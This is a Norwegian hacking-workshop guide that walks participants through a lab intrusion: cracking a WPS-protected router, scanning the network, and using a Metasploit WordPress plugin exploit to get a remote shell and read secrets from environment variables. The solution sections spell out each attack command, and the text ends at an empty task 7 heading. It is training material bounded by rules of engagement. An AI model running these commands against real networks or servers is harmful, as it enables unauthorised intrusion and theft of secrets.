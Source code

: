 # Hackerworkshop Bekk Fagdag 21.10.2022

I denne workshopen skal du bryte deg inn på en ruter, kartlegge nettverket, finne sårbarheter i en webserver og skaffe deg tilgang til serveren og dens database.

## Engasjementsregler

- Det er bare tillatt å angripe wifi-nettverket kalt HackMe og enheter tilknyttet ruterens lokale nettverk på `192.168.38.0/24`.

- Tjenestenektangrep mot ruteren eller andre enheter på nettverket er ikke tillatt da det vil ødelegge for andre.

- Siden alle er koblet på samme nettverk er det lurt å unngå permanente endringer av filer, rettigheter og lignende dersom du skaffer deg tilgang til en server.

## Oppgaver

### 1. Bryt deg inn på wifi-nettverket
Routeren vi har satt opp bruker en sårbar implementasjon av WPS-protokollen. Ved hjelp av [OneShot](https://github.com/drygdryg/OneShot) kan vi utnytte det! 

**Bruk Oneshot og pixiedust til å finne passordet til HackMe-nettverket. Repoet er allerede klonet og klart på maskinen!**

<details>
<summary>Hint 1</summary>
Naviger til OneShot-repoet i en terminal og kjør oneshot.py med riktig options.
</details>

<details>
<summary>Hint 2</summary>

Dere må spesifisere riktig trådløst grensesnitt ved å bruke `-i` flagget. Trådløst grensesnitt kan du finne med kommandoen `iwconfig`.
  
</details>

<details>
<summary>Hint 3</summary>
  
Om det tar lang tid, kan det hende dere har glemt å spesifisere hvilket angrep OneShot skal kjøre, ved å kjøre `--pixie-dust`.
</details>

<details><summary>Løsningsforslag</summary>
Kjør kommandoen under, og velg nettverket HackMe.
  
```
sudo python oneshot.py -i wlan0 --pixie-dust
```

</details>

</br>

### 2. Kartlegging
Nå som dere er koblet til nettverket, skal dere finne ut hvilke enheter og hvilke åpne porter som er tilgjengelige. 
Noter eventuelle interessante funn.

<details><summary>Hint 1</summary>

Her kan dere bruke verktøyet `nmap` til å scanne nettverket. Bruk `man nmap` for å se hvilke options dere kan gi til nmap.

</details>

<details><summary>Hint 2</summary>

Enheter som ligger i IP-rangen `192.168.38.100 - 192.168.38.255` er dere selv og andre deltakere i workshopen.

</details>

<details><summary>Løsningsforslag</summary>

Kjør nmap med `-A`flagget for å vise mer informasjon om her host.
  
```sudo nmap -A 192.168.38.0-100```
  
</details>


</br>

### 3. Grav dypere!
Velg dere ut det funnet fra forrige oppgave dere tenker er mest interessant å se videre på. Dere skal nå forsøke å lære litt mer om denne enheten, i jakten på en angrepsvinkel.

**a) Finn ut hvilke teknologier som er i bruk på serveren**

<details><summary>Hint 1</summary>
Også her er nmap et fint verktøy. Hvilke porter er åpne?
</details>

<details><summary>Hint 2</summary>
nma viser at port 1337 er åpen. Hva skjer om dere åpner 192.168.38.72:1337 i nettleseren?

Om dere ønsker, kan dere også bruke wappalyzer-utvidelsen i nettleseren for å undersøke nærmere. 
</details>
 
b) **Se etter skjulte ressurser på serveren ved hjelp av verktøyet `gobuster`. Bruk gjerne en kort ordliste, f. eks. [denne](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt) for å unngå å overbelaste serveren.**

<details><summary>Hint 1</summary>
Last ned ordlisten og kjør kommandoen under. Ser dere noen interessante funn?

```gobuster dir -u http://192.168.38.72:1337 -w common.txt```
</details>

<details><summary>Løsningsforslag</summary>

Her finnes det flere måter man kan konkludere med at webserveren kjører en wordpress-instans. Man kan feks åpne http://192.168.38.72:1337 i en browser, og se at "Powered by wordpress" pryder footeren på siden. 
  
Ved hjelp av gobuster kan vi også finne frem til siden (TODO: Hvilken side var det de kunne finne her?). Om dere fant denne, fikk dere også et flagg. Yay!

</details> 
 
</br>

### 4. Kjente sårbarheter?

Nå som dere har funnet ut hvilke teknologier som brukes, er neste steg å finne ut nøyaktig hvilke versjoner som kjører, og om de har noen kjente sårbarheter. 
</br></br>
**Se om dere finner noe sårbart som kjører på serveren!**

<details><summary>Hint 1</summary>

Ettersom vi vet at dette er en wordpress-server, kan vi bruke verktøyet `wpscan`. Dette verktøyet er allerede installert på kali linux, og brukes til å scanne blant annet sårbare versjoner, plugins og themes i tillegg til feilkonfigurasjoner.

</details>

<details><summary>Løsningsforslag</summary>
Kjør kommandoen under. Fra resultatet ser vi at serveren kjører en sårbar versjon av pluginen simple-file-list. 
  
```wpscan --url http://192.168.38.72:1337 ```

</details>
</br>

### 5. Exploit time!
Nå som vi er ferdig med kartlegging av målet, er det på tide å dra frem storskytsen! Vi har funnet et mål, kartlagt teknologien og funnet en sårbarhet vi kan bruke som inngang. 
</br> </br>
**Bruk metasploit til å skaffe dere et shell på serveren.**

<details><summary>Hint 1</summary>
  
For å starte metasploit (metasploit framework console) kjører dere kommandoen `msfconsole`. Inne i metasploit-konsollen kan dere bruke kommandoen `search` for å lete etter en konkret exploit. 
</details>

<details><summary>Hint 2</summary>
  
Exploiten dere trenger heter `exploit/multi/http/wp_simple_file_list_rce`. Last den inn ved å bruke `use`-kommandoen. `options`-kommandoen er nyttig for å se hvilke variabler som må settes før exploiten kjøres. 
</details>

<details><summary>Hint 3</summary>

Dere må sette følgende variabler ved hjelp av metasploits `set`-kommando.
  
```
RHOST - Remote host, denne fant dere tidligere
RPORT - Remote port, denne fant dere tidligere
LHOST - Local host. Deres egen IP (ikke localhost)
```
</details>

<details><summary>Løsningsforslag</summary>
</br>
Kjør kommandoene under, så vil du forhåpentligvis få et shell på serveren!
  
```
> msfconsole
> use exploit/multi/http/wp_simple_file_list_rce
> set RHOST 192.168.38.72
> set RPORT 1337
> set LHOST <deres egen ip>
> exploit
```  
</details>

</br>

### 6. Se dere rundt!
Nå som vi har et shell på serveren, kan vi begynne å snoke rundt etter noe interessant (.. i dette tilfellet et flagg!). 
</br></br>
**Ta en runde på serveren, og se om dere finner noe som ligner et flagg.**

<details><summary>Hint 1</summary>
Det kan være fristende å navigere rundt i filsystemet, men det vil være en blindvei i dette tilfellet. 
</details>


<details><summary>Hint 2</summary>
Hvor pleier man å gjemme hemmeligheter?
</details>

<details><summary>Hint 3</summary>
Det kan være lurt å ta en titt på miljøvariabler.
</details>

<details><summary>Løsningsforslag</summary>

Flagget ligger i en miljøvariabel på serveren. Kjør følgende kommando: `printenv`
</details>

</br>

### 7. Kom dere inn i databasen!

